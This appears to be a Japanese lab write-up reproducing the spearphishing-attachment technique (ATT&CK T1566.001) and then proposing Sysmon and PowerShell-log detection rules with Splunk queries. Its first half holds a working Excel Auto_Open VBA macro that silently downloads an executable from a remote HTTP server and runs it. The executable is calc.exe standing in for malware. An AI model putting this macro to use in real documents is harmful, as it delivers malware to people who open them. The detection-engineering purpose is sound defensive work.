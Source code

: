 # T1566.001 - Phishing Spearphishing Attachment

Phishing Spearphishing Attachment 検証
-------------

MS Office VBA Macro によるリモートファイルの実行とその検知について記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1566.001  |
|  Tactic  |  Initial Access |
|  Techniques  |  Phishing  |
|  Sub-techniques  |  Spearphishing Attachment |


本検証では、リモート端末にホストされた悪意のあるファイルに見立てた calc.exe ファイルを取得し実行するマクロを実装します。

VBA マクロを操作するために、リボンの設定から「開発」にチェックを入れます。

![T1566.001-1](images/T1566.001/1.png)

追加された開発タブからVisual Basic を選択し、VBA プロジェクトから標準モジュールを挿入します。

![T1566.001-2](images/T1566.001/2.png)

ここではリモート端末にホストされた悪意のあるファイル相当の calc.exe ファイルを取得し実行するマクロを実装します。

```
Sub Auto_Open()

Set ws = CreateObject("WScript.Shell")

ws.Run "cmd.exe /c powershell.exe -Command (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.254:8080/calc.exe ','%USERPROFILE%\Desktop\malicious.exe'); %USERPROFILE%\Desktop\malicious.exe", 0, True

End Sub
```

今回のケースではリモート端末として Kali Linux を用意し、別途 Windows から取得した calc.exe を配置しています。
簡単のために Simple HTTP Server を用いて GET の待ち受けを行います。

![T1566.001-3](images/T1566.001/3.png)

```
$ python2 -m SimpleHTTPServer 8080
```

VBA マクロが正しく動作するかの確認は、緑の実行ボタンから確認することができます。

![T1566.001-4](images/T1566.001/4.png)

リモート端末側では calc.exe が取得される様子が確認できます。

![T1566.001-5](images/T1566.001/5.png)

最後に、MS Excel をマクロが動作する xlsm 形式で保存します。

ファイルをオープンすると「コンテンツの有効化」が求められ、クリックすることでcalc.exe ファイルの取得と実行が行われます。

![T1566.001-6](images/T1566.001/6.png)


検知ルール検討
-------------

検知ルールについて検討します。
検証を行った本攻撃手法では、MS Office から cmd.exe が呼び出されています。
excel.exe や winword.exe といった MS Office が Caller となり cmd.exe や powershell.exe のプロセスが生成されることは通常の業務利用では稀であると考え、このプロセスの関係を検知ルールに落とし込む方法が考えられます。
Sysmon の EID 1 では生成されたプロセスとその呼び出し元プロセスがそれぞれ Image と ParentImageとして記録されます。

Splunk であれば以下のような SPL でプロセスの関係性をテーブル表示、またはビジュアル化することが可能です。

```
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
|eval ParentImage(From)=ParentImage 
|eval Image(To)=Image
|search "ParentImage(From)" != null
|table _time ParentImage(From) Image(To) process EventCode
|sort - _time
```
![T1566.001-7](images/T1566.001/7.png)

![T1566.001-8](images/T1566.001/8.png)

MS Office が Caller となり cmd.exe および powershell.exe のプロセスを生成する点に着目し、以下の検知ルールを提案します。

**MS Office からの cmd.exe および powershell.exe プロセス生成の検知ルール**

```
Sysmon
  EID 1 
    ParentImage 
      (*\EXCEL.EXE) OR (*\WINWORD.EXE)
　 AND
　 Image
      (*\cmd.exe) OR (*\powershell.exe) 
```

次に、本攻撃手法では、powershell.exe がリモートのファイルをダウンロードし、実行を行います。
その際に使われる Powershell のコマンドに着目し検知ルールを検討します。

Powershell の拡張ログでモジュールログ (EID4103)、スクリプトブロックログ (EID4104)それぞれで記録されるコマンド履歴に対してコマンドをマッチさせます。

Splunk であれば以下のような SPL で Powershell のコマンド部分を抽出することができます。

```
host="DESKTOP-53N6B15" source="XmlWinEventLog:Microsoft-Windows-PowerShell/Operational" EventID=4104
| rex field=EventData_Xml "<Data Name='ScriptBlockText'>(?P<PS_COMMAND>.+?)</Data>"  
| stats  count by PS_COMMAND  
| sort  - count
```

![T1566.001-9](images/T1566.001/9.png)

powershell.exe がリモートのファイルをダウンロードするコマンドに着目し、以下の検知ルールを提案します。

**powershell.exe によるリモートファイル取得の検知ルール**

```
Powershell
  EID 4103
    EventData
      Data Name="ContextInfo"
        (*WebClient*) AND (*DownloadFile*)
  OR
  EID 4104
    EventData
      Data Name="ScriptBlockText"
        (*WebClient*) AND (*DownloadFile*)
```
